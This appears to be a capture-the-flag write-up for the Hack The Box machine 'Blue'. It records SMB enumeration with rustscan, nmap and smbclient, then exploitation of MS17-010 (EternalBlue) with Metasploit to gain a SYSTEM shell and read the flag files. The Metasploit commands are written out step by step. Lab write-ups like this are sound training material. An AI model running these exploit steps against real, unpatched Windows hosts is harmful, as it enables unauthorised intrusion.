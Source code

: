 # Blue
## SMB
## CVE
## Metasploit
``````

➜  sudo vi /etc/hosts
Add:

10.10.10.40 blue.htb

➜  rustscan -a blue.htb --ulimit 5000

PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

➜  sudo nmap -Pn -sV -T4 -p- -oA blue -vv blue.htb 

PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

➜  smbclient -L //blue.htb/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk  

➜  smbclient //blue.htb/Share

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 08:48:44 2017
  ..                                  D        0  Fri Jul 14 08:48:44 2017

➜  smbclient //blue.htb/Users

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 01:56:23 2017
  ..                                 DR        0  Fri Jul 21 01:56:23 2017
  Default                           DHR        0  Tue Jul 14 02:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 23:54:24 2009
  Public                             DR        0  Tue Apr 12 02:51:29 2011

smb: \> get desktop.ini 
smb: \Public\Libraries\> get RecordedTV.library-ms 
smb: \> exit

➜  sudo nmap -Pn -sCV -T4 -p- -vv blue.htb  

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-25T04:46:02
|_  start_date: 2022-06-25T04:37:41
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 56624/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 49417/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-25T05:46:00+01:00
|_clock-skew: mean: -19m56s, deviation: 34m36s, median: 2s

Note the OS:

Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

GoogleFu:

samba Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1) exploit

Response:

https://www.exploit-db.com/exploits/42315

CVE-MS17-010

➜  searchsploit MS17-010

Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Executio | windows/remote/42031.py

➜  sudo msfconsole
msf6 > search MS17-010
msf6 exploit(windows/smb/ms17_010_psexec) > show options
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run
meterpreter > shell
C:\Windows\system32>whoami

nt authority\system

C:\Windows\system32>dir C:\Users /s /b | findstr /e .txt

C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt

C:\Windows\system32>type C:\Users\haris\Desktop\user.txt

user_flag

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt

root_flag

``````

![image](https://0xc0rvu5.github.io/docs/assets/images/20220624235939.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000112.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000206.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000253.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000351.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000457.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000602.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000703.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000754.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625000933.png)

#hacking
